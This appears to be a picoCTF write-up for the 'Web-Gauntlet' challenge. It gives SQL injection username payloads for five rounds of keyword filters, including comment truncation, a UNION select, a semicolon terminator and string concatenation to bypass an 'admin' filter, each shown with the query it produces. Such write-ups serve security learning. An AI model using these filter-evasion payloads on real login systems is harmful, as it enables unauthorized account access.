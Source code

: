 # Web-Gauntlet
AUTHOR: MADSTACKS
DESCRIPTION: Can you beat the filters? Log in as admin http://jupiter.challenges.picoctf.org:29164/ http://jupiter.challenges.picoctf.org:29164/filter.php

# Solution
The challenges consist of 5 Rounds, each requiring SQL injections to move to the next round.

Round 1: <br>
Filter :  `or` <br>
Username = `admin' -- `<br>
Password = `foo` <br>
Query : `SELECT * FROM users WHERE username='admin' --' AND password='foo'`<br>
<br>
Round 2: <br>
Filter : `or and = like --` <br>
Username = `admin' union select * from users where '1`<br>
Password = `foo`<br>
Query : `SELECT * FROM users WHERE username='admin' union select * from users where '1' AND password='foo'`<br>
<br>
Round 3: <br>
Filter : `or and = like > < --`<br>
Username = `admin';`<br>
Password = `foo`<br>
Query : `SELECT * FROM users WHERE username='admin';' AND password='foo'`<br>
<br>
Round 4: <br>
Filter : `or and = like > < -- admin`<br>
Username = `ad'||'min;`<br>
Password = `foo`<br>
Query : ` SELECT * FROM users WHERE username='ad'||'min';' AND password='foo'`<br>
<br>
Round 5: <br>
Filter : `or and = like > < -- union admin`<br>
Username = `ad'||'min;`<br>
Password = `foo`<br>
Query : `SELECT * FROM users WHERE username='ad'||'min';' AND password='foo'`<br>

FLAG will be present in `filter.php` at the end of 5 rounds
